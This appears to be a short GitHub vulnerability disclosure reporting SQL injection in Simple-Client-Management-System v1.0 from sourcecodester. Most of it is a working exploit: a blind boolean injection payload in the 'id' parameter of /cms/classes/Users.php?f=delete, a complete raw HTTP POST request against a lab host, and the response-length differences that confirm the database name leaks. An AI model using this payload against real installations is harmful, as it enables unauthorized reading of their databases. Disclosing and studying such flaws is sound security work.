 # Simple-Client-Management-System v1.0 by oretnom23 has SQL injection

**Author：** k0xx

vendors: https://www.sourcecodester.com/php/15027/simple-client-management-system-php-source-code.html

Vulnerability File: /cms/classes/Users.php?f=delete

Vulnerability location: /cms/classes/Users.php?f=delete,id

[+] Payload:  id=11' and length(database()) =6 --+ // Leak place ---> id

Current database name: cms_db,length is 6

```sql
POST /cms/classes/Users.php?f=delete HTTP/1.1
Host: 192.168.1.19
Content-Length: 36
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/cms/admin/?page=user/list
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=5u3dthmlo3ajo2g7k8pfvb4g8h
Connection: close

id=11' and length(database()) =6 --+ // Leak place ---> id
```


When length (database ()) = 6, Content-Length: 19
![image](https://user-images.githubusercontent.com/54017627/164883597-52bd6fd1-4ca5-492b-b1ad-8154f9d00a6a.png)


When length (database ()) = 7, Content-Length: 168
![image](https://user-images.githubusercontent.com/54017627/164883606-fe9eabca-396b-4fea-a2ee-99f68a2f064c.png)
